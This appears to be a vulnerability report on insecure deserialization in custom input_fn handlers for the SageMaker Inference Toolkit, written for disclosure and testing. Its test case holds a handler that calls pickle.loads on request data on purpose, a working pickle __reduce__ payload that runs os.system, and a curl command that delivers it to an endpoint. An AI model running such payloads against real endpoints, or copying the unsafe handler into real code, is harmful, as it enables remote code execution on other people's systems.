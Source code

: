 ### Vulnerability List for SageMaker Inference Toolkit

* Vulnerability Name: Insecure Deserialization in Custom Inference Handler (`input_fn`)
* Description:
    1. An attacker identifies that a SageMaker endpoint is using the SageMaker Inference Toolkit and potentially a custom inference handler.
    2. The attacker crafts a malicious payload specifically designed for insecure deserialization vulnerabilities (e.g., using `pickle` in Python).
    3. The attacker sends an inference request to the SageMaker endpoint.
    4. This request is processed by the model server, which invokes the custom inference handler's `input_fn` to deserialize the input data.
    5. If the custom `input_fn` uses insecure deserialization methods (like `pickle.loads`) without proper sanitization, the malicious payload is deserialized.
    6. During deserialization, the crafted payload executes arbitrary code within the container.
* Impact:
    - Arbitrary code execution within the SageMaker inference container.
    - Potential for data exfiltration, including model weights and sensitive environment variables.
    - Modification of model behavior, leading to incorrect or malicious inference results.
    - Denial of Service by crashing the container or consuming excessive resources.
    - Lateral movement to other AWS resources if the container's IAM role is overly permissive.
* Vulnerability Rank: Critical
* Currently Implemented Mitigations:
    - None. The toolkit provides default safe decoders for common content types (JSON, CSV, NPY, NPZ), but it does not prevent users from implementing custom `input_fn` functions with insecure deserialization practices.
* Missing Mitigations:
    - **Input Validation and Sanitization Guidance:** The toolkit documentation should strongly emphasize the risks of insecure deserialization and provide clear guidelines on secure input handling practices.
    - **Security Best Practices Documentation:** Include a dedicated security section in the documentation, specifically warning against insecure deserialization and recommending safe alternatives.
    - **Code Examples and Secure Templates:** Provide code examples and templates that demonstrate secure input handling and deserialization techniques for custom inference handlers.
    - **Static Analysis or Linting Recommendations:** Recommend or integrate static analysis tools or linters that can detect potential insecure deserialization patterns in user-provided `input_fn` implementations.
* Preconditions:
    1. A SageMaker endpoint must be deployed using the SageMaker Inference Toolkit.
    2. The deployed endpoint must be configured to use a custom inference handler (`inference.py`) that overrides the `default_input_fn`.
    3. The custom `input_fn` implementation must use insecure deserialization methods (e.g., `pickle.loads` in Python) on the input data without proper sanitization.
    4. The attacker must have network access to send requests to the SageMaker endpoint.
* Source Code Analysis:
    1. **`src/sagemaker_inference/transformer.py` - `transform` method:**
        - The `transform` method is the core handler for inference requests. It's responsible for orchestrating the inference pipeline.
        - The method calls `self.validate_and_initialize()` to set up the inference environment and handlers.
        - It retrieves the request body (`input_data`) and content type.
        - It then calls `self._run_handler_function` to execute either `self._transform_fn` or, by default if `transform_fn` is not provided, the sequence `self._input_fn`, `self._predict_fn`, and `self._output_fn`.
        - If a custom `transform_fn` is not provided, the input data processing starts with `self._input_fn`.
        - **Vulnerable Point:** The `input_data`, received directly from the request, is passed as an argument to `self._input_fn`. The `Transformer` class and the toolkit, in general, do not perform any checks or sanitization on the user-provided `input_fn` implementation. This means if a user's `input_fn` deserializes this data insecurely, the toolkit will execute it without any safeguards.
    2. **`src/sagemaker_inference/default_inference_handler.py` - `default_input_fn`:**
        - The `default_input_fn` is designed to be a safe fallback. It uses `decoder.decode(input_data, content_type)` to deserialize the input.
        - **Mitigation:** The `default_input_fn` itself is not vulnerable because it relies on the `decoder.decode` function which uses safe deserialization methods for supported content types (JSON, CSV, NPY, NPZ).
    3. **`src/sagemaker_inference/decoder.py` - `decode` function and decoders:**
        - The `decode` function acts as a dispatcher, selecting a specific decoder based on the `content_type`.
        - The provided decoders (`_json_to_numpy`, `_csv_to_numpy`, `_npy_to_numpy`, `_npz_to_sparse`) use safe methods for their respective formats (e.g., `json.loads` for JSON, `numpy.load` for NPY).
        - **Mitigation:** The default decoders provided by the toolkit are designed to be safe against common deserialization vulnerabilities.
    4. **User-provided `input_fn` in `inference.py`:**
        - **Vulnerability:** The vulnerability is introduced when users create a custom `inference.py` and implement their own `input_fn` function, overriding the default. If this custom `input_fn` uses insecure deserialization functions like Python's `pickle.loads` without proper input validation, it becomes a significant security risk. The toolkit does not prevent or warn against this practice.

        ```mermaid
        graph LR
            A[Inference Request] --> B(Transformer.transform);
            B --> C{Validate & Initialize Handlers};
            C --> D{Custom transform_fn?};
            D -- Yes --> E(Run custom transform_fn);
            D -- No --> F(Run default transform flow);
            F --> G(Run input_fn);
            G --> H(Run predict_fn);
            H --> I(Run output_fn);
            G -- Insecure Deserialization in custom input_fn --> J[Arbitrary Code Execution];
            E -- Insecure Deserialization in custom transform_fn (via input_fn) --> J;
            J --> K[Compromised Container];
        ```

* Security Test Case:
    1. **Setup:**
        - Create a custom `inference.py` file with a vulnerable `input_fn` using `pickle.loads`:
        ```python
        # inference.py
        import pickle
        from sagemaker_inference import default_inference_handler

        class PickleInferenceHandler(default_inference_handler.DefaultInferenceHandler):
            def default_input_fn(self, input_data, content_type, context=None):
                return pickle.loads(input_data)  # INSECURE DESERIALIZATION

            def default_model_fn(self, model_dir, context=None):
                return "dummy_model"

            def default_predict_fn(self, data, model, context=None):
                return {"data": data}

            def default_output_fn(self, prediction, accept, context=None):
                return str(prediction)

        HANDLER_SERVICE = PickleInferenceHandler()
        ```
        - Build a Docker image incorporating this `inference.py` and deploy it to a SageMaker endpoint.
    2. **Craft Malicious Payload:**
        - Use the following Python script to generate a base64-encoded pickled payload that will execute `touch /tmp/pwned` inside the container when deserialized:
        ```python
        import pickle
        import base64
        import os

        class RCE(object):
            def __reduce__(self):
                cmd = ('touch /tmp/pwned')
                return (os.system, (cmd,))

        payload = base64.b64encode(pickle.dumps(RCE())).decode()
        print(payload)
        ```
        - Execute the script and copy the generated base64 payload.
    3. **Send Malicious Request:**
        - Send a POST request to your SageMaker endpoint using `curl` or `requests`. Replace `YOUR_SAGEMAKER_ENDPOINT_URL` and `YOUR_BASE64_PAYLOAD` with your actual endpoint URL and the base64 payload from the previous step:
        ```bash
        BASE64_PAYLOAD="YOUR_BASE64_PAYLOAD"
        ENDPOINT_URL="YOUR_SAGEMAKER_ENDPOINT_URL"

        curl -X POST \
             -H "Content-Type: application/octet-stream" \
             -d "$(echo $BASE64_PAYLOAD | base64 -d)" \
             $ENDPOINT_URL
        ```
    4. **Verify Vulnerability:**
        - **Verification Method 1 (Ideal but might require container access):** If possible, access the container's shell (e.g., via SageMaker Studio if configured or through container logs if file system access is logged). Check if the file `/tmp/pwned` exists within the container's filesystem. Its presence confirms successful code execution.
        - **Verification Method 2 (Indirect via side-effects):**  If direct container access isn't feasible, modify the payload to perform an observable action that reflects in logs or external systems (if network access is configured for the container). For example, attempt to write to a shared volume log file or make an outbound HTTP request to a controlled server and check for the request.
        - **Expected Result:** If the vulnerability is present, the command `touch /tmp/pwned` (or your chosen observable action) will be executed inside the container, indicating successful arbitrary code execution due to insecure deserialization in the custom `input_fn`.